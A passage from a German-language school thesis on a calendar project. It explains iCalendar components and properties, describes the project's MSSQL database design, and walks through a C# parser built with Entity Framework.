Ein Event ist wie in \ref{sec:vCalendar} erwähnt ein Termin. Jeder Termin kann einen Alarm \ref{sec:vAlarm} enthalten. Das Event im Kalender kann auch unter anderem als eine regelmäßige Erinnerung im Kalender spezifiziert sein. Dann enthält die Event-Komponente statt dem üblichen Date-Time ein sogenanntes ''DTSTART''.
\subsection{VTODO}
\label{sec:vTodo} 
Die VTODO Komponente im Kalender ist ein Eintrag welcher der Benutzer als noch zu erledigen hinzugefügt hat. Als Beispiel könnte hier sein: ''Ich erstelle heute am 05.März.2019 um 6 Uhr ein Todo-Ereignis mit der Beschreibung ''Koffer packen'' für morgen 06.März.2019 um 12 Uhr und ich muss morgen um 16 Uhr fertig sein.'' \\
Das Ganze könnte in Form eines iCal-Formats so aussehen: \\ \\
  BEGIN:VTODO \\
  UID:wagner-dario@kaindorf.at\\
  DTSTAMP:20190305T060000+0100\\
  DTSTART:20190306T120000+0100\\
  DUE:20190306T160000+0100\\
  SUMMARY:Koffer packen\\
  CLASS:CONFIDENTIAL\\
  CATEGORIES:TRAVELING\\
  PRIORITY:3\\
  STATUS:NEEDS-ACTION\\
  END:VTODO\\
  
\subsection{VALARM}
\label{sec:vAlarm} 
Wie der Name schon sagt gibt VALARM eine Gruppe von Komponenten, welche einen Alarm definieren, an.  Wie bei allen iCal Komponenten beginnt VALARM mit ''BEGIN:'' und hört mit ''END:'' auf. VALARM wird zwischen den BEGIN und END Komponenten einer TODO oder EVENT Komponente eingefügt. Ein Alarm kann also für ein Event oder Todo gesetzt werden, eine Alarm Komponente kann nicht selbständig in einem Kalender stehen. Ein VALARM muss eine ''Action'' und einen '' Trigger'' beinhalten. Es muss also definiert sein wann was passiert. Als Action gibt es vier Möglichkeiten: \\ \\
\textbf{1. Audio} \\
Wenn die Action ''Audio'' angegeben ist muss mit der ''ATTACH'' Eigenschaft auf eine Audio/Sound-Resource verwiesen werden, welche bei Aktivierung des Alarm abgespielt wird. \\ \\
\textbf{2. Display} \\ 
Die Implementierung der Action ''Display'' muss einen Text enthalten, welcher bei Auslösung des Alarms angezeigt wird. Angegeben wird der Text mithilfe der ''DESCRIPTION'' Eigenschaft. \\ \\
\textbf{3. E-Mail} \\ 
Durch die Action ''EMAIL'' wird wie der Name bereits verrät eine EMail gesendet. Um dies zu ermöglichen muss die ''DESCRIPTION'' Eigenschaft hinzugefügt werden, diese enthält den EMail Text. Die Eigenschaft ''SUMMARY'' enthält den Betreff und die Eigenschaft ''ATTENDEE'', welche bei \ref{sec:attendee} erklärt wird, enthält die EMail Adressen der Leute welche die Mail bekommen sollen. Zusätzlich ist es möglich die Eigenschaft ''ATTACH'' einzufügen um Anhänge mitzusenden. \\ \\
\textbf{4. Procedure} \\ % GHÖRT NO BESSER ERKLÄRT
Eine Procedure Action muss eine ''ATTACH'' Eigenschaft beinhalten. Diese muss auf maximal und minimal eine ''Procedure'' Resource verweisen, welche bei Alarmauslösung aufgerufen wird.
\subsection{BEGIN: und END:}
\label{sec:beginUndEnd} 
Die ''BEGIN'' und ''END'' Komponenten in einer iCalender-Datei geben den Anfang und das Ende einer ''Kalender''-Komponente an, sowie Anfang und Ende des Kalenders selbst. ''Kalender''-Komponenten sind jene Komponenten welche dem Kalender untergeordnet sind und eigene Komponenten enthalten. Zum Beispiel Event, Todo oder Alarm. 
% VTODO / VEVENT
\subsection{UID}
\label{sec:uid}
Die UID selbst muss eindeutig sein, sie darf niemals auf mehr als einen Wert verweisen. Um dies zu gewährleisten gibt es einige generatoren. Unter C\# lässt sich ein sogenannter ''Global Unique Identifier'' wie folgt erstellen: \\
\begin{lstlisting}[caption=GUID in C\#, label=lst:test]
var id = Guid.NewGuid(); 
\end{lstlisting}
Eine Möglichkeit einen eindeutigen Wert selbst zu ''generieren'' wäre wenn ein Teil der ID aus dem heutigen Datum mit aktueller Uhrzeit bestehen würde, wenn ich die Uhrzeit mit tausendstel angebe, ist die Wahrscheinlichkeit die selbe ID zu generieren fast 0. 
\subsection{SUMMARY}
\label{sec:summary}
Diese Eigenschaft kann in den Kalender Komponenten VEVENT \ref{sec:vEvent}, VTODO \ref{sec:vTodo}, VJOURNAL und VALARM \ref{sec:vAlarm} verwendet werden. In dieser Eigenschaft kann eine kurze Beschreibung für eine Aktivität festgehalten werden.
\subsection{DTSTART}
\label{sec:dtstart}
Kann in den Komponenten VEVENT \ref{sec:vEvent}, VTODO \ref{sec:vTodo}, VFREEBUSY und VTIMEZONE verwendet werden. Der Zweck dieser Eigenschaft wird bis auf in der VFREEBUSY erklärt, da diese keine in der Diplomarbeit verwendete Komponente ist. \\ \\ \textbf{VEVENT} / \textbf{VTODO}: Wenn diese Eigenschaft in VEVENT oder VTODO hinzugefügt wird dann kann für das Event ein Start-Datum und eine Start-Zeit festgelegt werden. Bei einer VEVENT und VTODO Komponente ist es möglich, dass sie ein Start-Datum enthält aber kein End-Datum (DTEND \ref{sec:dtend}). \\ \\ \textbf{VTIMEZONE}: In der VTIMEZONE Komponente gibt die DTSTART Eigenschaft den tatsächlichen Beginn einer Zeitzone an und ist verpflichtend, also nicht optional. \\
Beispiel für eine DTSTART Eigenschaft: \\
DTSTART: 20190308T165800
\subsection{DTEND}
\label{sec:dtend}
Diese Komponente kann nur in VEVENT \ref{sec:vEvent} und VFREEBUSY hinzugefügt werden. Wie bei DTSTART wird nur die Verwendung in VEVENT erklärt. In VEVENT definiert die Eigenschaft das End-Datum und die End-Zeit eines Termins/Events.
\subsection{DTSTAMP}
\label{sec:dtstamp}
DTSTAMP kann in den Komponenten VEVENT \ref{sec:vEvent}, VTODO \ref{sec:vTodo}, VFREEBUSY und VJOURNAL verwendet werden. In dieser Eigenschaft wird der das Datum und die Uhrzeit festgehalten zu welcher die .ics-Datei aus den Informationen aus der Datenbank erstellt wurde.
% https://stackoverflow.com/questions/11594921/whats-the-difference-between-created-and-dtstamp-in-the-icalendar-format
\subsection{COMMENT}
\label{sec:comment}
In dieser Eigenschaft kann ein Kommentar, welcher für den Benutzer sichtbar ist, eingefügt werden. Diese Eigenschaft kann mehrmals hinzugefügt werden und in VEVENT \ref{sec:vEvent}, VTODO \ref{sec:vTodo}, VJOURNAL, VTIMEZONE und VFREEBUSY hinzugefügt werden.
\subsection{DESCRIPTION}
\label{sec:description}
Die Description ist eine Eigenschaft welche in VEVENT und VTODO benutzt werden kann. Der Wert der Eigenschaft ist ein einfacher Text welcher das Event oder die zu erledigende Aufgabe genauer beschreibt. 
\subsection{LOCATION}
\label{sec:location}
\textbf{Anwendbar in:} VEVENT, VTODO \\ % FORMAT AUF ALLE ANDREN ÜBERNEHMEN
Mithilfe dieser Eigenschaft kann in der Aktivität ein Ort genauer definiert werden. Bei einem Termin namens "Meeting" kann in der Location der Konferenzraum reingeschrieben werden. 
\subsection{PRIORITY}
\label{sec:priority}
\textbf{Anwendbar in:} VEVENT, VTODO \\
Die Eigenschaft Priority kann definiert werden um die Wichtigkeit des eingetragenen Termins zu spefizieren. Der Wert der Eigenschaft ist ein Integer, also eine Zahl. Der Wert der als Priority eingetragen werden kann liegt im Bereich 0-9. Wobei 0 der Standard-Wert ist, wenn 0 festgelegt wird ist es so als wäre die Eigenschaft nicht spezifiziert worden. Anders als zu erwarten ist aber der Wert 9 die niedrigste und der Wert 1 die höchste Priorität. 
\subsection{RRULE}
\label{sec:rrule}
\textbf{Anwendbar in:} VEVENT, VTODO, VJOURNAL \\
Der Name der Eigenschaft heißt ausgeschrieben ''Recurrence Rule'' was auf Deutsch ''Wiederholungsregel'' bedeutet. In dieser Eigenschaft wird definiert in welcher Frequenz und wie oft ein Ereignis im Kalender auftreten \textbf{wiederholt} werden soll. Die Eigenschaft DTSTART \ref{sec:dtstart} ist hierbei besonders wichtig. Anhand der DTSTART Eigenschaft wird angegeben von welchem Datum die Wiederholungsregel ausgeht. Diese Eigenschaften in Kombination könnten wie folgt aussehen: \\ \\
Tägliches-Event für die nächsten 10-Mal:\\
 DTSTART;TZID=US-Eastern:19970902T090000\\
 RRULE:FREQ=DAILY;COUNT=10\\
\subsection{DUE}
\label{sec:due}
\textbf{Anwendbar in:} VTODO\\
Der Wert der Eigenschaft ist ein Datum und muss entweder gleich oder größer als das Start-Datum sein. Sie gibt an bis was etwas zu erledigen ist. 
\subsection{CLASS}
\label{sec:class}
\textbf{Anwendbar in:} VEVENT, VTODO, VJOURNAL\\
Die ''CLASS'' Eigenschaft ist eine Komponente zur Sicherheit in einer Kalender Applikation. Mithilfe dieser Eigenschaft kann der Zugriff auf Termin Informationen kontrolliert werden. Der Wert dieser Eigenschaft sind vorgegebene Werte. Ein hinzugefügtes Class-Objekt könnte wie folgt aussehen: CLASS:PUBLIC.
\subsection{ORGANIZER}
\label{sec:organizer}
\textbf{Anwendbar in:} VEVENT, VTODO, VJOURNAL\\
Diese Komponente des Kalenders sorgt dafür, dass man bei einem Termin, wo mehrere Leute beteiligt sind, einen Organisator im Termin festlegen kann. Die wichtigste Eigenschaft von ''Class'' ist unter anderem ''CN'' bei welcher man den Anzeigenamen angeben muss. Eine ''ORGANIZER'' Eigenschaft könnte zum Beispiel so aussehen: \\ \\ ORGANIZER;CN=Dario Wagner:MAILTO:wagdaa14@htlkaindorf.at\\
\subsection{STATUS}
\label{sec:status}
\textbf{Anwendbar in:} VEVENT, VTODO, VJOURNAL\\
Der Sinn dieser Eigenschaft ist es den Status oder die Bestätigung des Kalender Objekts zu definieren. In einer VTODO Komponente könnte der Status so aussehen: STATUS:NEEDS-ACTION. Heißt er ist noch nicht abgeschlossen und muss noch bearbeitet werden.
\subsection{ATTENDEE}
\label{sec:attendee}
Die Aufgabe dieser Eigenschaft ist es Teilnehmer eines Termins zum Kalender hinzufügen zu können. Die Eigenschaft \textbf{muss} nur innerhalb von Kalenderkomponenten angegeben werden, um Teilnehmer, Nichtteilnehmer und den Vorsitzenden einer Gruppenkalenderentität anzugeben. \\ \\ 
\textbf{Parameter:}
\begin{itemize}
 \item \textbf{CN} steht für den anzuzeigenden Namen, welcher der Kalenderadresse zugeordnet ist
 \item \textbf{ROLE} für die beabsichtigte Rolle, die der Teilnehmer in der Kalenderkomponente haben wird
 \item \textbf{PARTSTAT} für den Status der Teilnahme des Teilnehmers
 \item \textbf{RSVP}, um anzuzeigen, ob eine Antwort verlangt wird
 \item \textbf{CUTYPE}, um den Typ des Kalenderbenutzers anzugeben
 \item \textbf{MEMBER}, um die Gruppen anzugeben, zu denen der Teilnehmer gehört
 \item \textbf{DELEGATED-TO}, um die Kalenderbenutzer anzugeben, an die die ursprüngliche Anforderung delegiert wurde
 \item \textbf{DELEGATED-FROM}, um anzugeben, von wem die Anfrage delegiert wurde
 \item \textbf{SENT-BY}, um anzugeben, wer im Auftrag der ATTENDEE handelt
 \item \textbf{DIR}, um den URI anzugeben, der auf die dem Teilnehmer entsprechenden Verzeichnisinformationen zeigt
 \end{itemize} 
Diese Eigenschaftsparameter können für eine Eigenschaft ''ATTENDEE'' in einer Kalenderkomponente ''VEVENT'', ''VTODO'' oder ''VJOURNAL'' angegeben werden. Sie dürfen in einer ''ATTENDEE''-Eigenschaft in einer ''VFREEBUSY''- oder ''VALARM''-Kalenderkomponente nicht angegeben werden. Wenn der Eigenschaftsparameter LANGUAGE angegeben wird, gilt die angegebene Sprache für den Parameter CN. \\ \\
Eine ATTENDEE Eigenschaft könnte wie folgt aussehen: \\
\begin{figure}[h]
	\centering
    
\includegraphics[width=\textwidth]{images/iCal_Format_attendee}
    \caption{iCal ATTENDEE Beispiel}
    \label{fig:netFramework}
\end{figure}
\subsection{TRANSP}
\label{sec:transp}
Diese Eigenschaft ist zur Angabe, ob ein Event beim Filtern nach ''beschäftigter Zeit'' angezeigt werden soll oder nicht. Der Wert der Eigenschaft TRANSP kann entweder ''OPAQUE'' oder ''TRANSPARENT''. Opaque bedeutet undurchsichtig und wird somit beim Filtern nach beschäftigter Zeit angezeigt.
%VALARM
\subsection{TRIGGER}
\label{sec:trigger}
\textbf{Anwendbar in:} VALARM \\
Gibt an wann ein Alarm ausgelöst werden soll. Der Standard-Wert ist die Eigenschaft ''DURATION'' \ref{sec:duration}. Es gibt mehrere Möglichkeiten anzugeben wann der Alarm ausgelöst werden soll. 
\begin{enumerate}
\item Trigger welcher 20 Minuten nach Start des Events auslöst: \\TRIGGER:-P20M\\
\item Trigger welcher 10 Minuten nach Ende des Events auslöst: \\TRIGGER;RELATED=END:P10M\\
\item Trigger welcher an einer absoluten Uhrzeit auslöst (17.03.2019 - 12 Uhr): \\TRIGGER;VALUE=DATE-TIME:20190317T120000Z\\
\end{enumerate}
\subsection{REPEAT}
\label{sec:repeat}
\textbf{Anwendbar in:} VALARM \\
Gibt an wie oft ein Alarm nach erstmaliger Auslösung wiederholt werden soll. Um einen Alarm mit 5 Minuten Abstand 4 mal zu wiederholen muss die REPEAT Eigenschaft wie folgt aussehen: \\ \\ REPEAT:4\\DURATION:PT5M
\subsection{DURATION}
\label{sec:duration}
\textbf{Anwendbar in:} VEVENT, VTODO, VALARM, VFREEBUSY\\
Diese Eigenschaft gibt eine Dauer an. Bei einem Event kann sie eine Zeit angeben wie lange das Event dauert, anstatt einer DTEND Eigenschaft \ref{sec:dtend}. Die DURATION kann auch wie bei dem Beispiel einer REPEAT Eigenschaft \ref{sec:repeat} genutzt werden.
\subsection{ACTION}
\label{sec:action}
\textbf{Anwendbar in:} VALARM \\
Beschreibt die Aktion die ausgeführt wird wenn ein Alarm ausgelöst wird. Wie bei VALARM \ref{sec:vAlarm} beschrieben kann hier zum Beispiel ''ACTION:AUDIO'' angegeben werden, dann wird beim auslösen des Alarm ein Ton abgespielt. Welches Geräusch abgespielt wird hängt vom Verweis auf die Sound-Datei ab. 
\subsection{ATTACH}
\label{sec:attach}
\textbf{Anwendbar in:} VEVENT, VTODO, VALARM, VJOURNAL\\
Mithilfe der ATTACH-Eigenschaft kann eine Datei dem Termin angehängt werden. Dies könnte zum Beispiel ein wichtiges Formular für ein Meeting oder Notizen für eine Präsentation sein. 
	%TODO Bilder zitieren

\renewcommand{\theauthor}{Matthias Franz}
\chapter{Datenbank}
\label{sec:datenbank}
In diesem Kapitel geht es um die Datenbank welche in dieser Arbeit erstellt worden ist. Es geht um den Aufbau der Datenbank, deren Funktion und wie diese mit den anderen Teilen des Projektes zusammenarbeitet.

\section{Funktion der Datenbank}
\label{sec:funktionDatenbank}
Die Datenbank speichert Benutzerdaten und Kalender der Benutzer. Die Daten dieser Datenbank bilden alle für dieses Projekt relevanten Teile einer iCal-Datei ab. Es werden nicht alle möglichen Eigenschaften einer iCal-Datei benötigt, da die Daten welche gespeichert werden ausreichen, um einen typischen Kalender welcher in Unternehmen verwendet wird abgebildet. Die Datenbank ermöglicht es, dass mehrere Benutzer mehrere Kalender haben und mehrere Benutzer auch die gleichen Kalender haben können. Benutzer sind in der Lage Kalender mit Terminen, To-Do Elementen und Alarmen zu speichern, weiters ermöglicht die Datenbank es die Zeitzone des Kalenders zu ändern.
\\
Die Daten werden dann vom Parser genommen und in eine funktionierende .ics-Datei umgewandelt. 

\section{Aufbau der Datenbank}
\label{sec:aufbauDatenbank}
Die Datenbank ist relationale Datenbank MSSQL-Datenbank, das ER-Diagramm welches in Abbildung \ref{fig:erDiagramm} zu sehen ist wurde mit der Krähenfuß- oder auch Martinnotation abgebildet. 
\\
Ein ER-Diagramm besteht aus Entitäten und Relationen, eine Entität ist eine Tabelle und eine Relation ist eine Verbindung zweier Entitäten. Eine Relation hat immer zwei Kardinalitäten, eine Kardinalität gibt die maximal möglich Anzahl an Instanzen auf welche sich eine Entität referenzieren kann. In der Krähenfußnotation gibt es sechs verschiedene Kardinalitäten. Da auf jeder der beiden Seiten einer Relation eine Kardinalität ist, gibt es viele verschiedene Kombinationen. Alle möglichen Kardinalitäten werden in Abbildung \ref{fig:kardinalitaeten} gezeigt.
\begin{figure}[H]
	\centering
\includegraphics[scale=0.7]
	{Datenbank_Kardinalitaeten.png}
    \caption{Kardinalitäten}
    \label{fig:kardinalitaeten}
\end{figure}
Im ER-Diagramm von Abbildung \ref{fig:erDiagramm} werden Primary-Keys fett und Foreign Keys kursiv dargestellt.

\pagebreak
\begin{figure}[H]
	
\includegraphics[angle=270,origin=c,width=\textwidth]{Datenbank_ER-Diagramm.jpg}
    \caption{ER-Diagramm}
    \label{fig:erDiagramm}
\end{figure}
	
\pagebreak
	% TODO - Dario: 
% Entity Framework Source-Code
% Aufgabe, hinzufügen des Modells unseres Projekts und genauer darauf eingehen wie der Parser funktioniert. 

\renewcommand{\theauthor}{Dario Wagner}
%\justifying
\chapter{Parser}
\label{sec:parser}
\section{Aufgabe}
\label{sec:parser-aufgabe}
Die Aufgabe des Parsers ist es auf die Datenbank zuzugreifen und sich die, für das iCal Format notwendigen, Daten zu holen. Diese werden anschließend vom Parser in einen iCal String umgewandelt, damit der benutzte Kalender diesen verwerten kann und passende Termine erstellt. 

\subsection{Source-Code}
\label{sec:parser-sourcecode}
Unter dieser Überschrift wird auf einen wichtigen Teil des Parsers eingegangen um seine Funktionsweise in Kombination mit dem Entity Framework zu verstehen. Im Prinzip besteht der Parser aus zwei Teilen, dem Verbindungsaufbau mit der Datenbank(DB) über das Entity Framework und dem konvertieren der Daten zu einer iCal-Zeichenkette. Da der zweite Teil sich nur mit reinem Abfragen ob Daten vorhanden sind und wenn sie vorhanden sind dem hinzufügen zum StringBuilder beschäftigt wird dieser Teil nicht erklärt.\\ \\
Im folgenden eingefügten Source-Code ist zu sehen wie mithilfe des Parser auf die Datenbank zugegriffen werden kann. Der Source-Code ist anhand von Kommentaren in vier Parts aufgeteilt. Das Source-Code Beispiel wurde identisch aus dem praktischen Teil der Diplomarbeit in der Klasse Parser unter der Methode GetICalFormat(int userID) übernommen. \\ \\
\textbf{Part 1} \\
Im ersten Part wird der StringBuilder, welcher letzten Endes die fertige Zeichenkette zurückgibt, erstellt. Anschließend wird über den ''using''-Command ein Objekt mit dem Namen ''db'' von der Klasse iCalContext erstellt. Die Klasse iCalContext wurde vom Entity Framework automatisch generiert. Unter dem Schlüsselwort ''using'' wird desweiteren eine Boolean-Variable erstellt, welche später bei einer Abfrage benötigt wird. Diese kann vorerst ignoriert werden, da sie für die Erklärung irrelevant ist. Im Anschluss wird eine Liste des Typen ''int'' erstellt, welche später unsere Kalender-IDs enthalten wird. \\ \\
\textbf{Part 2} \\
In diesem Abschnitt wird über eine foreach-Schleife durch eine Liste iteriert welche alle Calender IDs enthält die dem übergebenem User gehören. In der Schleife werden alle IDs in die CalendarIdList gespeichert. \\ \\
\textbf{Part 3} \\
In Part 3 ist der Kopf der foreach-Schleife die sich bis zum Ende der Methode durchzieht zusehen. In dieser werden alle Kalender, mit einer ID, welche in der CalendarIdList enhalten sind, iteriert. Das heißt die Methode wird erst beendet wenn alle Kalender des Benutzers in einen iCal-String umgewandelt wurden und im StringBuilder enthalten sind. Da am Anfang von jedem Kalender immer ''BEGIN:VCALENDER'' und eine Timezone angegeben wird, wird dieser String direkt an den StringBuilder angehängt. \\ \\
\textbf{Part 4} \\
In Part 4 ist der Kopf einer foreach-Schleife sichtbar, welcher dafür sorgt, dass durch jeden Termin oder Eintrag im Kalender durchiteriert wird. Da das iCal-Format für einen Kalender wie folgt aufgebaut ist: 
\begin{itemize}
\item Kalender Anfang
\item Termin/Eintrag
\item ...
\item Kalender Ende
\end{itemize}

\begin{lstlisting}[caption=Parser Verbindung zur DB mit dem Entity Framework, label=lst:test]
// Part 1
StringBuilder iCalFormat = new StringBuilder();
using (var db = new iCalContext())
{
  bool isTodo = false;
  List<int> CalendarIdList = new List<int>();
  // Part 2
  foreach (var userhascal in db.UserHasCalendar.Where
  		  (y => y.UserId == UserID))
  {
	CalendarIdList.Add(userhascal.CalendarId);
  }
  // Part 3
  foreach (var calendar in db.Calendar.Where
  	(x => CalendarIdList.Contains(x.CalendarId)))
  {
    iCalFormat.Append("BEGIN:VCALENDAR\nVERSION:2.0\n"
	+ "METHOD:PUBLISH\n"
	+ "TZID:" + calendar.TimeZone.Continent + "-" 
	+ calendar.TimeZone.Country + "\n");
    // Part 4
    foreach (var calendarEntry in calendar.CalendarEntry)
    {
\end{lstlisting} 
\subsubsection{using-Schlüsselwort in C\#}
\label{usingkeyword}
Using wird verwendet um sicherzugehen, dass das Objekt oder die Objekte, welche in ''using'' verwendet werden, entsorgt werden. Um zu veranschaulichen wie ''using'' funktioniert, folgendes Beispiel:

\begin{lstlisting}[caption=Parser funktionsweise von using, label=lst:test]
// using Schluesselwort
using (MyResource myRes = new MyResource())
{
    myRes.DoSomething();
}
 
// Funktionsweise von using 
{ // Limits scope of myRes
    MyResource myRes= new MyResource();
    try
    {
        myRes.DoSomething();
    }
    finally
    {
        // Check for a null resource.
        if (myRes != null)
            // Call the object's Dispose method.
            ((IDisposable)myRes).Dispose();
    }
}
\end{lstlisting} 
vgl. \cite{ParserUsingKeyword}
\section{Entity Framework}
\label{sec:parser-entity-framework}
In diesem Kapitel wird beschrieben wie das Entity Framework funktioniert und wie es angewendet wird. Die  Beschreibung der Anwendung wird mithilfe von Bildschirmaufnahmen veranschaulicht. 
\subsubsection {Funktionsweise}
Mithilfe des Entity Framework lässt sich eine Datenbankstruktur innerhalb des Projekts mit Klassen darstellen. Wenn auf eine dieser Klassen in Form einer Value-Abfrage zugegriffen oder durch sonstige GET/SET Methoden, wird durch das Entity Framework ein Datenbank Zugriff durchgeführt. 
%Um die Funktionsweise genauer zu verstehen folgt ein Beispiel mit einer Datenbank in welcher Autos gespeichert werden:
%HIER KOMMT DANN EIN BEISPIEL
\subsubsection {Anwendung}
Voraussetzung: Funktionsfähige ASP.NET Web Application \\
\break \textbf{1. Erstellung einer Datenbank} \\
Um die Anwendung des Entity Frameworks zu verstehen wurde die Scott-Tiger Datenbank verwendet welche öffentlich unter folgendem Link zugänglich ist:  
\break \url{http://jailer.sourceforge.net/scott-tiger.sql.html} \\
\break \textbf{2. Installieren des EntityFrameworks} \\
In der Packet Manager Console folgenden Befehl eingeben und bestätigen: 
\begin{figure}[H]
	\centering
    
\includegraphics[width=0.5\textwidth]{Parser_EFUse01}
    \caption{EF Install}
    \label{fig:parsef01}
\end{figure}
Abschluss der Installation sieht wie folgt aus:
\begin{figure}[H]
    
\includegraphics[width=0.9\textwidth]{Parser_EFUse02}
    \caption{EF Install complete}
    \label{fig:parsef02}
\end{figure} 

\textbf{3. Entity Framework generiert Klassen aus DB} \\
Im Solution Explorer auf den Model Ordner Rechtsklick machen, ''Hinzufügen'' und ''Neues Element'' auswählen. Folgende Bildschirmaufnahme zeigt wie dies in etwa aussehen sollte.
\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{Parser_EFUse03}
    \caption{EF Neues Element}
    \label{fig:parsef03}
\end{figure} 
Anschließend, wie in der nächsten Bildschirmaufnahme gezeigt, auf ''Daten'', ''ADO.NET Entity Data Model'' und Hinzufügen
\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{Parser_EFUse04}
    \caption{EF ADO.NET Entity Data Model}
    \label{fig:parsef04}
\end{figure} 
